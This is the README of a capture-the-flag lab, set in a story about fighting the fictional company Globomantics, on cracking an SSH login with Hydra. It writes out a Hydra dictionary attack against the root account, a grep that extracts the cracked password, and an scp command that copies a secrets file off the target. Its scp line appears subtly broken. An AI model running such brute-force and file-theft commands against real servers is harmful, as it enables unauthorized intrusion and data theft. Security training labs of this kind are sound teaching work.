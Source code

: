 # Using Hydra to Crack Passwords

## Lab description: In this challenge, you will access the Globomantics network through their SSH service, through a dictionary attack launched using Hydra.

It was a gray, cold winter day when you decided to join the Resistance. The Dark Kittens was the main opposing force against Globomantics' evil intentions, however, nothing matched the power and resources of this huge conglomerate.
Their plan was to deploy artificial intelligence agents to implement a totalitarian regime, in which people's emotions would be forcefully supressed through a drug called "the spice". The humanity was in serious danger.
Until one day, when a whistleblower sent a message to the Dark Kittens, sharing that the keys to the main AI controller were sitting on an SSH server. With those, you, together with the Dark Kittens, could stop Globomantics from putting their evil ideas into practice.

You decide to try hacking into the SSH server and grab the secret keys. 

On a Linux machine, you opened a terminal. Next, you did the following:
1. You created a script called attack.sh.
2. Inside it, you added `#!/bin/bash` at the top of the file.
3. After that, you added the details of the host, `root` as username, and the path to their secrets file that you got from your informer. The file was supposingly stored in /tmp/sensitive-info.txt file.
4. Next, you created the following line, where you sent the path to a file containing a list of the most common passwords to Hydra:
```hydra -l $username -P passwd $host ssh > result.txt```
5. Then, you added the command to fetch the password and store it in a file called result.txt:
```password=$(grep "password:" result.txt | awk '{print $2}')```
6. With the purpose of analyzing the secrets file fetched from the Globomantics network, you added the following command to copy the file to your machine:
```scp $username:$secrets_file .```
7. You launched the script.

And the result was successful. You managed to extract the following secrets:

```
Password: d683a51d
Secret Key: 493e1aec-a884-11ed-afa1-0242ac120002
```

It was a great victory for humanity! But it was just a battle. The war was far from over...
